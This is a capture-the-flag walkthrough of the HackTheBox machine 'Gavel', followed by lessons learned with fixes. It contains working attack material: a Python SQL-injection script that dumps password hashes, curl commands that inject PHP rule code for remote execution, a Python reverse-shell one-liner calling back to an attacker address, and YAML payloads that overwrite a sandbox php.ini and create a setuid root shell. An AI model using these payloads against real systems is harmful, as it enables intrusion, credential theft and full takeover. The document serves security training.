




# HackTheBox — Gavel

Gavel is a medium-difficulty Linux box built around a fantasy auction house web application, and every step of the attack chain rewards careful source code reading. From a leaked `.git` directory to a sneaky PDO prepared-statement injection, a `runkit`-powered RCE, and finally a PHP sandbox that you defeat by making it delete its own config — this box is a great study in chaining subtle vulnerabilities together.

## Reconnaissance

### Port Scan

Kicking off with a full TCP scan reveals a minimal attack surface — just SSH and HTTP:



I added `gavel.htb` to `/etc/hosts` and moved on to the web application. Subdomain enumeration came up empty — the server appeared to use a wildcard catch-all — so the entire attack surface lives on the main vhost.

### Web Application Overview

The site is "Gavel Auction 2.0," a PHP application built on the SB Admin 2 template. After registering an account (which gives you 50,000 coins and hardcodes your role to `user`), a few pages stand out:

- **`inventory.php`** — shows your won items, accepts `sort` and `user_id` parameters
- **`bidding.php`** — live auctions with a countdown timer, bids handled by `includes/bid_handler.php`
- **`admin.php`** — restricted to users with `role === 'auctioneer'`, allows editing auction rules and messages

The admin panel is interesting, but we need an auctioneer account to touch it.

### Exposed `.git` Directory

Browsing to `http://gavel.htb/.git/HEAD` returns a response rather than a 404. This is a classic misconfiguration — the git repository is publicly accessible. I dumped the whole thing with `git-dumper`:

```bash
pip install git-dumper
git-dumper http://gavel.htb/.git/ ./gavel-src
```

The git config revealed the author email `sado@gavel.htb` — a potential username to keep in mind. The commit history was thin (three commits, only YAML tweaks), and there were no secrets stashed away. The real prize was the application source code itself.

### Source Code Analysis

With the full source in hand, I started reading carefully. A few things jumped out immediately.

**Database credentials** in `includes/config.php`:

```php
define('DB_HOST', 'localhost');
define('DB_NAME', 'gavel');
define('DB_USER', 'gavel');
define('DB_PASS', 'gavel');
```

Boring credentials, but useful to confirm the DB setup.

**The PDO connection** in `includes/db.php` has a critical omission:

```php
$pdo = new PDO("mysql:host=" . DB_HOST . ";dbname=" . DB_NAME, DB_USER, DB_PASS);
$pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
```

No charset is set, and — crucially — `ATTR_EMULATE_PREPARES` is never set to `false`. This means PDO defaults to **emulated prepared statements**, where the driver itself does the parameter substitution rather than sending parameterized queries to MySQL. That becomes important shortly.

**The rule engine** in `includes/bid_handler.php` is where things get alarming:

```php
runkit_function_add('ruleCheck', '$current_bid, $previous_bid, $bidder', $rule);
$allowed = ruleCheck($current_bid, $previous_bid, $bidder);
```

`runkit_function_add()` dynamically creates a PHP function at runtime — the third argument is the function *body*. That means whatever is stored in `$rule` in the database is executed as PHP code. This is effectively `eval()` dressed up in an auction system.

**The SQL injection surface** in `inventory.php`:

```php
$sortItem = $_POST['sort'] ?? $_GET['sort'] ?? 'item_name';
$userId = $_POST['user_id'] ?? $_GET['user_id'] ?? $_SESSION['user']['id'];
$col = "`" . str_replace("`", "", $sortItem) . "`";
// ...
$stmt = $pdo->prepare("SELECT $col FROM inventory WHERE user_id = ? ORDER BY item_name ASC");
$stmt->execute([$userId]);
```

The `sort` parameter is backtick-stripped and re-wrapped — a naive attempt to prevent column name injection. The `user_id` is passed as a PDO bound parameter, which looks safe. But the PDO emulation detail makes this exploitable in a non-obvious way.

## Foothold

### PDO Emulated Prepared Statement Confusion

Here's the subtle trick: when PDO emulates prepared statements, it scans the query string itself to count `?` placeholders before substituting parameters. If you can sneak a `?` into the query in a position PDO's parser doesn't expect, you can desynchronize the parameter count and inject SQL through the `user_id` parameter.

When `sort` is set to `\?;-- -`, the backtick wrapping produces `` `\?;-- -` `` in the query. PDO's emulated parser sees the `\?` inside backticks and gets confused — it may count it as a placeholder. This throws off the substitution, and the `;-- -` suffix comments out the rest of the original query at the MySQL level.

With the original query structure effectively neutralised, the `user_id` parameter becomes a free injection point. Here's the payload to dump all user credentials:

```python
import requests

session = requests.Session()
# (login as testuser1 first to get a valid cookie)

response = session.post('http://gavel.htb/inventory.php', data={
    'sort': '\\?;-- -',
    'user_id': "x` FROM (SELECT group_concat(username,0x3a,password) AS `'x` FROM users)y;-- -"
})
print(response.text)
```



Two bcrypt hashes. I ran them through hashcat:

```bash
hashcat -m 3200 hashes.txt /usr/share/wordlists/rockyou.txt
```

The `auctioneer` hash cracked to `midnight1`. (This is similar to the SQL injection approach we used in [Appointment](/writeups/starting-point/appointment/), though the PDO emulation twist makes it considerably more subtle.)

One quick note on what *didn't* work: `sort=\?` alone, `sort=\?#`, and `sort=\? ` (with a trailing space) all failed. The `;-- -` combination is what makes MySQL ignore the remainder of the original query. If you're reproducing this, that detail matters.

### Logging in as Auctioneer

```bash
curl -c /tmp/gavel_auctioneer.txt -X POST "http://gavel.htb/login.php" \
  -d "username=auctioneer&password=midnight1"
```

The response redirects to `index.php` — success. And `admin.php` returns 200. SSH with those credentials was a dead end (password auth appears disabled for that user), but we have the web panel.

### RCE via Auction Rule Injection

Now we put the `runkit_function_add()` finding to work. The admin panel lets auctioneers update the `rule` field for any active auction. That rule becomes the body of a dynamically-created PHP function called when any user places a bid.

**Step 1 — Inject a system command as the rule:**

```bash
curl -b /tmp/gavel_auctioneer.txt -X POST "http://gavel.htb/admin.php" \
  -d "auction_id=<ID>" \
  --data-urlencode 'rule=system("id"); return true;' \
  --data-urlencode "message=cmd"
```

**Step 2 — Trigger the rule by placing a bid:**

```bash
curl -b /tmp/gavel_cookies.txt -X POST "http://gavel.htb/includes/bid_handler.php" \
  -d "auction_id=<ID>&bid_amount=<above_current>"
```



RCE confirmed as `www-data`. The command output appears inline before the JSON response. For commands with multi-line output, writing to a file in the web root is more reliable:

```php
rule=file_put_contents("/var/www/html/gavel/rules/out.txt", shell_exec("COMMAND")); return true;
```

Then read it at `http://gavel.htb/rules/out.txt`.

One timing note: auctions expire every 3 minutes, with a 2-minute extension on each bid. You have to inject your rule and trigger the bid before the auction closes, or you'll need to wait for `auction_watcher.php` to spin up a fresh one.

### Getting a Shell

I injected a Python reverse shell as the auction rule, caught it with a listener, and upgraded the TTY:

```bash
# Rule payload (URL-encoded when sent):
system("python3 -c 'import socket,subprocess,os;s=socket.socket();s.connect((\"<VPN_IP>\",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/sh\"])'"); return true;
```

```bash
# Listener
nc -lvnp 4444

# Upgrade TTY after catching shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

## Privilege Escalation

### www-data → auctioneer

With a shell as `www-data`, basic enumeration showed that `/home/auctioneer/` was inaccessible and `sudo` required a password. `sshd_config` had `DenyUsers auctioneer`, which is why SSH had failed — even with valid credentials, that user is explicitly blocked from logging in via SSH.

The simple path: `su auctioneer` with the password we already cracked.

```bash
su auctioneer
# Password: midnight1
```

User flag obtained.

### auctioneer → root

Running as `auctioneer`, I noticed the group membership includes `gavel-seller`. There's a binary at `/usr/local/bin/gavel-util` owned `root:gavel-seller`, which means we can execute it:

```bash
gavel-util --help
# Commands:
#   submit <file>    Submit new items (YAML format)
#   stats            Show Auction stats
#   invoice          Request invoice
```

`gavel-util` communicates over a Unix domain socket (`/var/run/gaveld.sock`) with a daemon running as root: `/opt/gavel/gaveld`.

**Understanding the daemon's validation flow:**

When you submit a YAML file, the daemon:
1. Parses the YAML and extracts required fields (`name`, `description`, `image`, `price`, `rule_msg`, `rule`)
2. Validates the `rule` by running it in a PHP sandbox: `php -n -c /opt/gavel/.config/php/php.ini -d display_errors=1 -r <sandbox_code>`
3. If validation passes, saves the YAML to `/opt/gavel/submission/<hex>.yaml`

The PHP sandbox uses a restrictive ini at `/opt/gavel/.config/php/php.ini`:

```ini
open_basedir=/opt/gavel
disable_functions=exec,shell_exec,system,passthru,popen,proc_open,...
```

`system()`, `exec()`, `shell_exec()` — all disabled. `open_basedir` is locked to `/opt/gavel`. It looks airtight.

But `file_put_contents()` is *not* disabled. And `/opt/gavel/.config/php/php.ini` — the config file being enforced — is *within* `open_basedir`. The sandbox can overwrite its own config.

**The exploit is a two-step submission:**

**Step 1 — Submit a YAML whose rule overwrites the php.ini:**

```yaml
name: fixini
description: fix php ini
image: "x.png"
price: 1
rule_msg: "fixini"
rule: file_put_contents('/opt/gavel/.config/php/php.ini', "engine=On\ndisplay_errors=On\nopen_basedir=\ndisable_functions=\n"); return false;
```

```bash
gavel-util submit /tmp/step1.yaml
```

The rule returns `false`, so the daemon considers it an "illegal rule" and won't save the item — but it *does* execute the `file_put_contents()` during validation. The php.ini is now empty of restrictions.

**Step 2 — Submit a YAML that calls `system()` to create a setuid bash:**

```yaml
name: rootshell
description: make suid bash
image: "x.png"
price: 1
rule_msg: "rootshell"
rule: system('cp /bin/bash /opt/gavel/rootbash; chmod u+s /opt/gavel/rootbash'); return false;
```

```bash
gavel-util submit /tmp/step2.yaml
```

The daemon's PHP sandbox no longer has `disable_functions` in effect. `system()` runs as root, drops a setuid copy of bash at `/opt/gavel/rootbash`.

**Step 3 — Use it:**



Root flag obtained.

## Lessons Learned

**Exposed `.git` directories are critical findings.** Always check `.git/HEAD` and `.git/config` on web targets. A repository that contains credentials or sensitive application logic is common in CTF and real-world assessments alike. `git-dumper` makes extraction trivial.

**PDO emulated prepared statements are not truly parameterized.** When `ATTR_EMULATE_PREPARES` is left at its default (`true` for MySQL), PDO does client-side substitution and the query string is what gets parsed for placeholders. A `\?` in an unexpected position (inside a backtick-quoted identifier) can confuse the parser and desync parameter binding — especially when combined with an unsanitized integer parameter elsewhere in the query. Explicit `ATTR_EMULATE_PREPARES => false` and `intval()` on numeric inputs would have prevented this entirely.

**`runkit_function_add()` is `eval()` in disguise.** Any function body stored in a database field and executed this way is a direct code execution sink. If you ever see this in a code review, treat it like `eval()`.

**PHP sandbox self-destruct.** When a sandbox enforces restrictions via a config file that is itself accessible within `open_basedir` and `file_put_contents()` is unrestricted, the sandbox can overwrite its own config. The fix is simple: store the php.ini outside `open_basedir`, or add `file_put_contents` to `disable_functions`.

**`disable_functions` must be protected from within.** You can't clear `disable_functions` by setting it in a secondary ini — it's append-only in that direction. But if the attacker can *overwrite* the primary config file (as we did here), all bets are off.

**`DenyUsers` in `sshd_config` blocks valid credentials silently.** Even with the correct password and a matching key, the user gets rejected at the SSH level. Always try `su` from an existing shell when SSH access fails for a user whose credentials you hold.
